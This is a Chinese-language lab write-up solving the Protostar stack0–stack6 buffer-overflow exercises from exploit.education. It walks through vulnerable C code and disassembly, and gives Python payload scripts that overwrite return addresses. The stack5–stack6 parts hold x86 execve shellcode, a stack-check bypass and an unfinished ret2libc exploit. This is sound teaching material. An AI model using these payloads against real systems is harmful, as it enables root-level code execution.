# PWN入门实验


#### 0x00 introduction

lab site : <https://exploit.education/>

#### 0x10 Protostar

##### 0x11 stack

###### 0x111 stack0

可以参考网站给出的源码，也可以直接反汇编得到汇编代码进行分析。

首先是网站给出的源码：

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

然后是反汇编得到的汇编代码：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-1 <!--标题-->
    </center>
</div>

0x80483fd - 0x8048409地址处的指令，先将esp+0x5c处置零，然后将esp指向esp+0x1c地址处。

那么0x5c-0x1c刚好为64大小，正好是源码中的buffer的长度。

又在0x8048411和0x8048415两条指令中，将esp+0x5c的值赋给了eax，然后判断eax是否为0，根据结果打印不同的字符串。

我们可以查看在0x8048500和0x8048529两处字符串：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-2 <!--标题-->
    </center>
</div>

因此可以判段 eax保存的就是源码中的变量modified，因此该变量存在地址esp+0x5c处，也就是和buffer数组紧密相连的。

那么该程序只需要将modified变量的值更改即可完成。

在该程序中有gets函数，这函数因为没有限制输入数据长度，因此会导致栈溢出。那么只要我们一次性输入大于64长度的数据，那么就可以将modified变量给覆盖了。

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-3 <!--标题-->
    </center>
</div>

根据图1-3可以看到modified变量已经被我们的输入覆盖了。并且再改程序return是发生了segmentation fault，而下面发生错误的地址0x616161，正是字符'a'的ascii码，因此我们输入的长度还覆盖到了返回地址。而0x616161地址是错误的地址，因此当ret指令被执行返回到0x616161时就出现了错误。

因为返回地址所在的栈地址是确定的，因此我们也可以将指定地址覆写，从而实现该栈溢出的利用。

再回看图1-1的 0x80483f7与0x80483fa，esp首先进行了8位对齐，也就是最大变小了0xf(不一定就是变小0xf，可能是0x0-0xf的任何一个数据，我们以0xm为代表)，然后再减去0x60，因此返回地址存储的地址为 esp+0x60+0xm，然后因为buffer数组起始地址又为esp-0x60+0x1c，因此从数组起始地址开始要覆盖到返回地址就需要输入长度为0x60-0x1c+0xm的输入。

通过上述分析，可以画出如下图1-5的栈结构。

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-4 <!--标题-->
    </center>
</div>

经过测试，当输入长度为84的字符串时，返回地址被覆盖，因为是32位地址，因此输入80长度字符串后就可以改变返回地址了。如图例子：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-5 <!--标题-->
    </center>
</div>

因此当遇到可利用的栈溢出漏洞时，便可以通过计算返回地址所保存的地址，通过溢出覆写该返回地址，从而让程序跳转到我们想让其执行的代码段。

###### 0x112 stack1

首先展示源码:

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

这个程序和stack0的区别在于，gets函数更换成了strcpy函数，同样的，strcpy函数并没有对将要写入的数据进行长度限制，这就可能导致要写入的数据长度大于了写入的数组的长度，从而造成栈溢出。

根据程序表达的意思，该程序的目的同样是要修改掉modified变量的值，但这里要求修改为0x61626364，也就是字符串"dcba"(小端序，高位在高地址，因此0x61在高地址，也就是a在最后)。同样的，反汇编分析出modified变量所处的栈地址，然后计算足够的长度进行覆盖即可。

如图1-6，0x804846d首先先判断argc是否为1，也就是是否输入了一个参数，是的话就跳转到0x8048487，否则就调用errx函数。在0x804848f - 0x8048497中，将输入的参数的数据的地址保存在esp+0x4中，然后在0x804849b-0x804849f中将buffer数组的起始地址保存在esp中，最后调用strcpy。因此此时的esp是buffer数组的起始地址，esp+0x4是输入的字符串参数的保存地址。

在0x80484a7 - 0x80484ab中，取出了esp+0x5c的值来与0x61626364进行比较，因此esp+0x5c正是modified变量的地址。而buffer长度为64(d) = 0x40，0x1C+0x40正好是modified的地址，因此modified也紧跟在buffer数组后。

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-6 <!--标题-->
    </center>
</div>

综上分析，只要输入64个占位符 + “abcd”即可修改modified变量成功。结果如图1-7所示。同样如果要利用该栈溢出漏洞，方法和stack0一样，这里只是多了argv和args参数，只需要计算时多加0x8即可。

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-7 <!--标题-->
    </center>
</div>

###### 0x113 stack2

这一道题和前两道原理是一样的，因此我们迅速讲解。

首先是其源码：

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

与另外两道题区别在于，这里获取输入是通过getenv获取GREENIE的环境变量值。因此我们可以通过export 设置好GREENIE的值。

这里简单分析一下modified值可以发现其还是紧接着buffer数组，因此输入只需要超过64的长度就可以覆盖到modified变量了。

我们通过python文件来简化我们的输入，首先编写如下的python代码为s2.py文件

```python
place = "A"*64
modified = "\x0a\x0d\x0a\x0d"
res = place + modified
print res
```

然后使用指令:

```shell
export GREENIE=`python s2.py`
```

那么打印该环境变量结果，以及运行stack2的结果应该如图1-8：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-8 <!--标题-->
    </center>
</div>

为什么0x0d0a0d0a不显示呢？这是因为"\x0a\x0d" 是两个特殊字符的编码，表示换行符和回车符，其中0xa和0xd就是这两个符号对应的ascii码值。"\x" 是一种特殊的字符序列，用于表示后面跟随的两个十六进制数字所代表的字符。使用 "\x" 这种特殊字符序列的目的是为了方便地表示一些不可见或难以输入的字符，例如换行符、回车符等。


###### 0x114 stack3

源码:

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

在分析这个源码后，可以得出他的目的是让我们将win函数地址覆写到fp指针中，从而打印出win函数里的字符串。


因此我们需要首先确定win函数在该程序中的偏移地址，我们可以通过objdump查看该程序的符号表从而确定该函数的地址：

```shell
objdump -t stack3 | grep win
```

输出如图1-9所示，那么0x8048424就是win函数的起始地址了：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-9 <!--标题-->
    </center>
</div>

当然也可以通过gdb的p指令查看：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-10 <!--标题-->
    </center>
</div>

接着对stack3进行反汇编，确定fp函数指针的地址以及buffer的起始地址：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-11 <!--标题-->
    </center>
</div>

在0x8048449 - 0x8048450可以看到esp+0x1c的地方仍然是buffer的起始地址。而在0x8048455处将esp+5c与0x0进行了对比，也就是判断fp是否为空。因此fp函数指针与buffer也是紧密相连的，那么直接写入覆盖即可。

这里我们通过python把exp写入文本中，然后在gdb中直接使用：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-12 <!--标题-->
    </center>
</div>

运行结果如图1-13，可以看到win函数已经被执行，并正确打印了字符串：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-13 <!--标题-->
    </center>
</div>

在stack0中，我们实现了修改ret地址，那么利用效果与这里的相同，通过更改某个地址的调用从而实现调用任意函数，这也是栈溢出的重要危害之一。

###### 0x115 stack4

还是先看源码吧：

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

很明显，这个题除了一个gets函数以及一个win函数就没其他东西了，我们也可以直观确定，这个题就是要我们把win函数的这串字符串打印出来。那这个题就需要通过栈溢出来覆盖ret地址进行利用了。

经过前几个题的训练，这个题已经很简单了。计算出main函数返回地址的地址，然后用win函数地址覆盖即可。那么就继续通过汇编来确定返回地址所保存的地址。

首先确定win函数地址：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-14 <!--标题-->
    </center>
</div>

然后在确定返回地址被保存的地址：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-15 <!--标题-->
    </center>
</div>

在图1-15中，buffer的起始地址为esp+0x10，而在次之前esp先被进行了8位对齐和减0x50的处理，因此我们可以确定如下的栈结构：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-16 <!--标题-->
    </center>
</div>

我们可以确定从buffer起始地址到esp&0xfffffff0地址大小为64，但是对齐操作我们需要多次尝试才能确定对齐之前的地址为多少。

通过测试，当输入长度为79时，刚好能够覆盖返回地址：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-17 <!--标题-->
    </center>
</div>

因此我们需要将win函数的地址从输入长度为76的地方开始写入即可覆盖，由图1-18可以看到，我们成功覆写返回地址，并成功跳转值win函数了：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-18 <!--标题-->
    </center>
</div>

###### 0x116 stack5

源码：

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

可以看到这个源码已经很简单了，那么我们要如何做呢？在该网站上给出了目标：

```C++
Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints:

At this point in time, it might be easier to use someone elses shellcode
If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.
```

因此我们需要利用栈溢出漏洞来执行我们自己的shellcode，那么思路是什么呢？

首先要执行到shellcode，那么前提就是我们的eip寄存器指向了我们shellcode的起始地址。那么在该程序中要如何控制eip寄存器呢？很明显可以通过ret指令实现，我们可以通过覆盖返回地址为shellcode地址，当程序成功返回后，eip就指向了shellcode的地址。

那么就直接确定返回地址被保存的地址了。首先在ret指令上打上断点，断点命中后查看栈情况：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-19 <!--标题-->
    </center>
</div>

因为在执行leave指令后，esp就指向了返回地址的起始地址，因此当前返回地址保存在0xbfffc9c中。

我们可以考虑一种最简单的shellcode插入方法，即将返回地址的下一地址作为shellcode的起始地址。这样做的话，我们的输入就可以这样构造了：

```C++
payload = "A"*76 + 0xbffffc10(返回地址的下一地址) + shellcode
```

因此当ret指令执行后将会返回0xbffffc10地址，然后eip也将指向该地址，而该地址正是我们的shellcode起始地址，因此就能实现shellcode的执行了。

那么shellcode该如何写呢？这里介绍一个最简单的反弹shell的shellcode。

```asm
31 c0             xor eax,eax    # eax = 0
50                push eax
68 2f 2f 73 68    push 0x68732f2f  #将/bin//sh字符串入栈
68 2f 62 69 6e    push 0x6e69622f  
89 e3             mov ebx,esp    # ebx = esp，就是将字符串起始地址保存在ebx中，当作execve函数运行的参数
89 c1             mov ecx,eax    # ecx = 0
89 c2             mov edx,eax    # edx = 0
b0 0b             mov al,0xb     # execve的系统调用号
cd 80             int 80         # 通过execve运行/bin/sh程序
31 c0             xor eax,eax    # eax = 0
40                inc eax        # sys_exit系统调用号
cd 80             int 80         # 退出当前进程
```

这个程序就是将/bin/sh程序通过execve运行起来，然后当前程序通过sys_exit结束运行。这里使用/bin//sh而不是/bin/sh是因为linux的机制，如果是"/bin/sh" 那么execve就会将其解析为"/bin/sh"与" "，NULL作为execve的第二个参数的内容，而第二个参数是命令行参数列表，是一个指针，而空指针将导致错误。如果是/bin//sh，execve解析参数列表时，它将只会解析成一个元素，即"/bin//sh"。也就是相当于再说明，"/bin//sh"是一个路径，而不是一个要被指令的命令。如果输入的是"/bin/sh"就相当于是一个要被执行的命令，而" "就是这个命令的参数，为空就会导致空指针问题。

根据上面分析的，脚本代码应该如下：

```python
buffer = "A"*76

ret_add = "\xA0\xfc\xff\xbf"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

#shellcode = "\xcc" * 8

print buffer + ret_add + shellcode
```

运行结果如下，可以看到/bin/sh已经成功被运行了，并且能够正常运行命令，而且权限也为root级别：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-20 <!--标题-->
    </center>
</div>

###### 0x117 stack6

源码：

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

在这道题中，与之前的题不一样的是这里进行了一个返回地址的判断。

__builtin_return_address(0)函数获取了当前函数的返回地址，然后将当前函数的返回地址进行一个判断，判断该返回地址是否位于0xbf000000 - 0xbfffffff地址之间。

这里额外提一下，如果是__builtin_return_address(1)，那就是返回调用当前函数的函数的返回地址，即fun1->fun2->fun3，返回了fun2的返回地址；如果是__builtin_return_address(2)，那就是返回调用了调用当前函数的函数的函数的返回地址，即fun1->fun2->fun3，就是返回了fun1的返回地址。

那么为什么判断是否在0xbf000000 - 0xbfffffff地址之间呢？这就需要下看一下该程序的内存分布情况了。

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-21 <!--标题-->
    </center>
</div>

可以给程序打个断点，然后运行起来，便可以使用info proc map查看该进程的内存分布。

在最后一排，我们可以看到stack的地址范围为0xbffeb000 - 0xc0000000.因此获取返回地址并判断是否在0xbf000000 - 0xbfffffff是为了检查程序的返回地址是否被更改到成了栈地址。也就是检查是否使用了stack5中的shellcode注入方法。

那么这要如何绕过检查呢？当然可以直接patch掉该if就可以绕过了，但为了训练pwn的技术，我们可以换个思路。

第一种方法就是多进行一次ret。这怎么理解呢？如果我们将返回地址修改为ret指令的地址，那么这并不会让返回地址位于栈地址中，同时将保存返回地址的下一个栈地址修改成shellcode的起始位置，而shellcode还是可以写在栈中。这样就可以绕过if的判断了。

根据图1-22所示，将0xbffffc8c地址内容(正常的返回地址)修改为0x80484f9，0xbffffc90地址内容修改为0xbffffc94，而0bffffc94就可以开始填入shellcode了。

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-22 <!--标题-->
    </center>
</div>

那么得到的exp脚本如下：

```python
payload = "A"*80
address = "\xf9\x84\x04\x08"
address += "\x94\xfc\xff\xbf"
shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print payload + address + shellcode
```

运行的结果：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-23 <!--标题-->
    </center>
</div>

虽然在栈上插入可执行代码很方便，但也正因为很容易利用，在现代的操作系统上已经禁止了在栈上执行代码。因此绝大部分情况下，我们是无法在栈中插入我们的shellcode的。

那这也引出了另一种办法，这种办法被称为ret2libc.

正如execve函数可以执行命令一样，在libc中还有system函数可以用于执行shell命令，因此思路也很简单，直接跳转到system函数地址开始执行不就行了？确实是这样，但我们还需要为system函数准备参数，也即/bin/sh字符串。

因此我们需要获取system函数地址，以及从libc库中获取"/bin/sh"字符串的地址。

由图1-24可以获得，libc被载入的基地址为0xb7e97000，system函数地址为0xb7ecffb0，而"/bin/sh"字符串在libc-2.11.2.so中的偏移为0x11f3bf。

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-24 <!--标题-->
    </center>
</div>

因为system函数的地址不再栈地址范围，因此可以直接将返回地址修改成system的地址，接着就是system函数返回地址，以及该函数的参数：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-25 <!--标题-->
    </center>
</div>

那么可以直接写脚本了：

```python
import struct

payload = "A"*80
system_add = "\xb0\xff\xec\xb7"
system_ret = "abcd"
binsh_add = struct.pack("I",0xb7e97000 + 0x11f3bf)
